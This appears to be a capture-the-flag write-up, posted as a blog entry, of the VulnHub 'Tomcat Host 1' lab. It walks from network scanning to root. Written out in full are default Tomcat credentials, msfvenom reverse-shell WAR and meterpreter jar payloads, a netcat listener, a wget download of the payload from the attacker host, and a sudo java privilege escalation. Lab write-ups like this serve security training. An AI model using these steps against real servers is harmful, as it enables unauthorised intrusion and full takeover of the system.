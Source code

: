 ```yaml
---
published: true
layout: post
title: Tomcat Host VulnHub
category: vulnhub
---
```

**Url**: [Tomcat Host 1 VulnHub](https://www.vulnhub.com/entry/my-tomcat-host-1,457/) 

**Difficulty**: Easy/Beginner Level 

**Author**: Akanksha Sachin Verma 

### Enumeration

Firstly, a netdiscover scan will reveal how the machine can be identified on the network:

<pre>netdiscover -i eth1
some more code for example</pre>
    
![netdiscover](https://i.imgur.com/IhhB5af.png)

Then an nmap scan:

	nmap -p- -A 192.168.56.110

![nmap](https://imgur.com/fqEpNx9.png)

A closer look at port 8080 on my broswer reveals a Apache Tomcat/9.0.31 

![tomcat](https://imgur.com/e78J3dy.png)

Apache Tomcat is an application server designed to execute Java servlets and render web pages that use Java Server page coding.

The "Manager App" section requires a username and password. The default credentials for Tomcat work (tomcat:tomcat).

	192.168.56.110:8080/manager/html

The Web Application Manager is an opportunity to upload a reverse shell. I'll be using msfvenom to create a reverse shell. This is a good website on how to use msfvenom for reference:

[Offensive Security](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

The payload must be a war file, listening on port 4444 with my local adddress.

	msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.56.101 lport=4444 -f war > fedai.war

This will be uploaded here:

![upload](https://imgur.com/N4Ns2uf.png)

Before executing the payload, listen on port 4444 with netcat:

	nc -nvlp 4444

Now it must be executed, so we visit the path where it is kept, in my case /fedai. We now have a reverse shell. Uid is 'tomcat'.

	id
	python -c 'import pty;pty.spawn("/bin/bash")'

![deployed](https://imgur.com/2hdSVjH.png)


### User

Always check sudo priviliges to see how we can start escelating priviliges:

	sudo -l
   
![sudo l](https://imgur.com/50SztJT.png)

As demonstrated, the user tomcat can run commands here:	/usr/lib/jvm/java-1.8.0-openjdk-1.8.0.242.b08-0.el7_7.x86_64/jre/bin/java. This is an openjdk java binary file which we can use to exploit priviliges.

We'll be creating another reverse shell payload on meterpreter in a java file format. Listening port will be 5555 with my local IP address again. The file will be downloaded on the victims pc so this file will be created under the apache web directory on my machine.

	msfvenom --platform java -f jar -p java/meterpreter/reverse_tcp lhost=192.168.56.101 lport=5555 > fedai.jar

![www](https://imgur.com/0IDSyUh.png)

Start the apache2 service:

	service apache2 start

Go to the temp directory on the victims machine and transfer the payload over.

	cd /tmp
	wget http://192.168.56.101/fedai.jar

![wget](https://imgur.com/PmLq6W1.png)


### Root

Before executing, we need to set up the meterpreter payload listener on metasploit:

	msfconsole
	use exploit/multi/handler
	set payload java/meterpreter/reverse_tcp
	set lport 5555
	run

![meterpreter](https://imgur.com/UWIDebS.png)

Let's execute this payload with the following command:

	sudo java -jar fedai.jar

![exe](https://imgur.com/6tya58T.png)

We get a successful connection from the tomcat machine as seen on meterpreter, the current user has been identified as root!

![connection](https://imgur.com/4NfW5Ls.png)
